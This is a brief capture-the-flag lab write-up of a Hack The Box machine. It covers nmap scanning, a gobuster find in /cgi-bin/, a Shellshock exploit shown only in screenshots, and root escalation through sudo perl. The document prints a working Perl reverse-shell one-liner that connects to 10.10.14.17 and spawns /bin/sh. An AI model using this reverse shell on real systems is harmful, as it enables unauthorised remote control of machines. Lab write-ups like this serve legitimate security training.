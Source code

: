 ### Larry Liu's Box Writeup | Bashed

## Enumeration

To begin, I ran the following commands to find the open ports and then detailed information about them (its IP was **10.10.10.56**):

```bash
nmap -Pn -n -vv --open -T4 10.10.10.56
nmap -Pn -n -p 80,2222 -vv --open -sV -sC -T4 10.10.10.56
```

Seeing that the box was a website, I went to it, bringing me to a just a filler image. From here, I ran gobuster to see if there were any subdirectories I could go to.

<img src="Images/Image1.png" alt="Image1" width="50%"/>

The /cgi-bin/ directory stuck out as unique, so I tried to see if there were any publicly accessible scripts in it. Searching for shell scripts got me this result:

<img src="Images/Image2.png" alt="Image2" width="50%"/>

I determined that the script was run every time it was connected to, so I opened it with burp so I could perform the ShellShock exploit to give myself a reverse shell.

<img src="Images/Image3.png" alt="Image3" width="50%"/>

After I got the reverse shell, I grabbed the user flag and looked for ways to access root.
I found that I was able to run perl commands as root as the shelley user, so I used another perl command to give myself a reverse shell as root.

<img src="Images/Image4.png" alt="Image4" width="50%"/>

```bash
sudo -u root perl -e 'use Socket;$i="10.10.14.17";$p=42070;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
From here, I could access root.txt, and pwned the box!

<img src="Images/Image5.png" alt="Image5" width="50%"/>
